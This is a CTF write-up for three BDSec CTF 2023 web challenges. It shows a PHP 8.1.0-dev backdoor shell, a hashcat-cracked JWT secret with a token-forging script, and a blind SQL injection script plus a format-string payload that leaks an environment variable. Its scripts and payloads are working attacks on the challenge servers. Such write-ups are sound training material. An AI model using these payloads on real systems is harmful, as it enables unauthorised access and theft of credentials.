 ```yaml
---
title: "BdecCTF 2023 - webx3"
layout: single
excerpt: "📅 Time: Thursday, 20 July 2023, 22:00 ICT (one month ago) — Friday, 21 July 2023, 22:00 ICT (one month ago) (~GMT +7)
✅ Rating weight: 12.23 :bully:
💻 Official URL: https://2023.bdsec-ctf.com"
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/Bk4JqAi9n.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/Bk4JqAi9n.png">
</p>

# Can you see me?

Description: 


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HyIfqAjch.png"/>

The description says quite a bit about php, so I focused on testing php but didn't get much results. I noticed that the web application using `PHP/8.1.0-dev` has a public exploit code.

![](https://hackmd.io/_uploads/BJ-IZy2q3.png)


Here is the PoC: [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933)

Solution:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ python 1.py
Enter the full host url:
http://139.144.184.115:8989/

Interactive shell is opened on http://139.144.184.115:8989/ 
Can't acces tty; job crontol turned off.
$ ls
index.php

$ ls /root
flag.txt

$ cat /root/flag.txt
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}

```


# What is 5 minus 4?

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/SyXXdJ39h.png"/>


Solution:
Try crack JWT to find secret

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIwMDYwNywianRpIjoiM2JjMzE5MDQtMmZlMy00MjAwLThmNzEtYTQyNmEyYjA5OTMyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6OTY0MiwibmJmIjoxNjkwMjAwNjA3LCJleHAiOjE2OTAyMDE1MDd9.aQWBkU0Sn0vyHzdPy86g76UU_dWe-Tw14_EQKv8NNIY
```

i will use hashcat.

```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -h | grep 16500
  16500 | JWT (JSON Web Token)                                       | Network Protocol

```

Run crack jwt:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 1.txt wordlist.txt                                    
hashcat (v6.2.6) starting

```

Secret key: `this_is_a_dev_secret`
now i can edit the jwt to elevate the account permissions.


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HknNOxh5n.png"/>

now i will change the jwt in the `sub` to `1`. is's admin account.

Jwt after it was fixed.

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6dHJ1ZSwiaWF0IjoxNjkwMjAzOTg5LCJqdGkiOiI4OWY3YjE4MC00Yzc5LTQxZTktODdhNi1jYzIxMmQ5MjY4NzciLCJ0eXBlIjoiYWNjZXNzIiwic3ViIjoxLCJuYmYiOjE2OTAyMDM5ODksImV4cCI6MTY5MDIwNDg4OX0.EF-tYblAP56RG2bWuhuc_KyDZgvELj4058M74pW2fVc
```

Using the modified JWT we can get the flag.

![](https://hackmd.io/_uploads/HkU6_x39n.png)

Script:

```python=
import requests
import string
import random
import jwt

url = "http://45.56.116.251:5050/"
secret = "this_is_a_dev_secret"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
    session_requests(session, 'POST', 'signup', { 'username':username,'name':username,'description':'lll','password':'lll' })
    session_requests(session, 'POST', 'login', { 'username':username,'password':'lll' } )
    
    old_jwt = session.cookies.get_dict()['access_token_cookie']
    
    decode_jwt = jwt.decode(old_jwt, secret, algorithms=["HS256"])
    decode_jwt['sub'] = 1 # sub of admin
    new_jwt = jwt.encode(decode_jwt, secret, algorithm="HS256")
    
    res = requests.get(url + 'profile', headers={ 'Cookie': 'access_token_cookie=' + new_jwt }) # request with another session
    print(res.text)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 1.py
<!DOCTYPE html>
<html>

.........
                
<div class="box">
  <h1 class="title">
    Welcome, admin
  </h1>
  <p class="content"> BDSEC{m4k3_y0ur_53cr37_k3y_57r0n63r} </p>
</div>

            </div>
        </div>
    </section>
</body>
</html>
```

# Injection

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/ByFtgQhq3.png"/>

Source code [here](https://drive.google.com/drive/folders/1NERMdtbud-3ZvPzdRCRnt1Qw39gFeKHy?usp=sharing).


I didn't solve this challenge, so after this CTF ended I consulted from everyone in discord.
There is basically a 2022 CTF that has the same idea as this challenge.
Refer click [ductf-sqli2022](https://www.justinsteven.com/posts/2022/09/27/ductf-sqli2022/).

My script solution:

```
output = cur.execute(
        'SELECT * FROM users WHERE username = {data[username]!r} AND password = {data[password]!r}'
        .format(data=data)
    ).fetchone()

```

in the source code contains a SQL injection vulnerability. I will try to focus mining here. However, FLAG is md5 encrypted and it is very likely that getting the flag will be difficult to decrypt.

Dump password `admin`:
```python
import requests
from hashlib import md5
import string

url = "http://139.144.184.115:1337/login"
session = requests.session()

password = ""

chars = string.digits + string.ascii_lowercase

for i in range(32):
    for m in chars:
        query = f'(SELECT hex(substr(password, {i+1}, 1)) FROM users WHERE username = "admin") = "{m.encode("utf-8").hex()}"'
        data = { "username" : "aaa\"'","password" : f"OR {query};-- -" }
        res = session.post(url, data)
        if 'You cant Hack Uss!!!' in res.text:
            password += m
            print("Found: ", m)

print("Password", password)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Password: 98371fd6630a26b9f04d623a6ea3d0af
```

SSTI leaked environment variable:

You can see the username after being logged in will be returned here. Therefore, it can be used to insert the SSTI payload.

```py=
return f'Yoo!! {data["username"]}!'.format(data=data)
```

* To be able to display this message need:
    * SQL must return a row from the database
    * Also username and password must match the data in the database.

Solution script:  
username:
`"\'UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT"UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT%c%s%cs)--{data.__class__.__copy__.__globals__[mimetypes].os.environ[FLAG]}"s)--`

Flag: `BDSEC{f1nj3c710n5_4r3_p41nful}`
